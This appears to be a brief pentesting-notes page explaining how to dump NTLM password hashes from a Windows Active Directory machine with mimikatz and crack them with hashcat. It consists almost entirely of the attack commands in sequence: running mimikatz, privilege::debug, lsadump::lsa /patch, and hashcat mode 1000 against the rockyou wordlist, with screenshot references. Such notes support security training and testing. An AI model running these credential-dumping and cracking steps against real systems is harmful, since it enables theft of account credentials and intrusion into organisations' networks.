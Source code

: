# Dumping Hashes with mimikatz

### Introduction

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

***

### Dump Hashes w/ mimikatz

1. `cd Downloads` && mimikatz.exe this will cd into the directory that mimikatz is kept as well as run the mimikatz binary&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>
2. `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>
3. `lsadump::lsa /patch` Dump those hashes!&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

***

### Crack those hashes w/ hashcat

1. `hashcat -m 1000 <hash> rockyou.txt`&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
